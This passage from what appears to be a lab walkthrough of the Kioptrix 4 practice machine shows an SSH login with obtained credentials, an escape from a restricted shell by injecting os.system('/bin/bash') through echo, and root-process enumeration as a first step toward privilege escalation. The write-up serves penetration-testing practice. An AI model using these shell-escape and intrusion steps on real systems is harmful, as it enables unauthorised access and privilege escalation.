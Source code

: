 ### SSH

With credentials obtained from Member’s Control Panel, SSH can be used to get low privilege shell to the system.
```bash
ssh robert@192.168.211.129

robert@192.168.211.129's password:

Welcome to LigGoat Security Systems - We are Watching

== Welcome LigGoat Employee ==

LigGoat Shell is in place so you don't screw up

Type '?' or 'help' to get the list of allowed commands

robert:\~\$ ?

cd clear echo exit help ll lpath ls
```
#### Escaping the Shell

As the low privilige shell is very restrictive echo command can be used to obtain a non-restrictive shell.
```bash
robert:\~\$ echo os.system('/bin/bash')
```
Privilege Escalation Enumeration
--------------------------------

### Determining what services are running on the system.

Below service running with root priviliges are displayed.

```bash
robert@Kioptrix4:/$ ps aux | grep root | grep -v ]
root         1  0.0  0.1   2844  1692 ?        Ss   19:40   0:02 /sbin/init
root      2875  0.0  0.0   2236   728 ?        S<s  19:41   0:00 /sbin/udevd --daemon
root      4643  0.0  0.0   1716   488 tty4     Ss+  19:41   0:00 /sbin/getty 38400 tty4
root      4645  0.0  0.0   1716   492 tty5     Ss+  19:41   0:00 /sbin/getty 38400 tty5
root      4652  0.0  0.0   1716   492 tty2     Ss+  19:41   0:00 /sbin/getty 38400 tty2
root      4655  0.0  0.0   1716   492 tty3     Ss+  19:41   0:00 /sbin/getty 38400 tty3
root      4659  0.0  0.0   1716   492 tty6     Ss+  19:41   0:00 /sbin/getty 38400 tty6
root      4711  0.0  0.0   1872   544 ?        S    19:41   0:00 /bin/dd bs 1 if /proc/kmsg of /var/run/klogd/kmsg
root      4732  0.0  0.0   5316   992 ?        Ss   19:41   0:00 /usr/sbin/sshd
root      4788  0.0  0.0   1772   524 ?        S    19:41   0:00 /bin/sh /usr/bin/mysqld_safe
root      4830  0.0  1.7 127224 17608 ?        Sl   19:41   0:04 /usr/sbin/mysqld --basedir=/usr 
--datadir=/var/lib/mysql --user=root --pid-file=/var/ru
root      4832  0.0  0.0   1700   552 ?        S    19:41   0:00 logger -p daemon.err -t mysqld_safe -i -t mysqld
root      4905  0.0  0.1   6528  1332 ?        Ss   19:41   0:00 /usr/sbin/nmbd -D
root      4907  0.0  0.2  10108  2544 ?        Ss   19:41   0:00 /usr/sbin/smbd -D
root      4921  0.0  0.0  10108  1028 ?        S    19:41   0:00 /usr/sbin/smbd -D
root      4922  0.0  0.1   8084  1340 ?        Ss   19:41   0:00 /usr/sbin/winbindd
root      4926  0.0  0.1   8208  1704 ?        S    19:41   0:00 /usr/sbin/winbindd
root      4954  0.0  0.0   2104   888 ?        Ss   19:41   0:00 /usr/sbin/cron
root      4976  0.0  0.5  20464  6200 ?        Ss   19:41   0:00 /usr/sbin/apache2 -k start
root      5031  0.0  0.0   1716   492 tty1     Ss+  19:41   0:00 /sbin/getty 38400 tty1
root      5050  0.0  0.0   8084   868 ?        S    19:47   0:00 /usr/sbin/winbindd
root      5051  0.0  0.1   8092  1264 ?        S    19:47   0:00 /usr/sbin/winbindd
robert    8762  0.0  0.0   3004   752 pts/2    R+   22:21   0:00 grep root
```
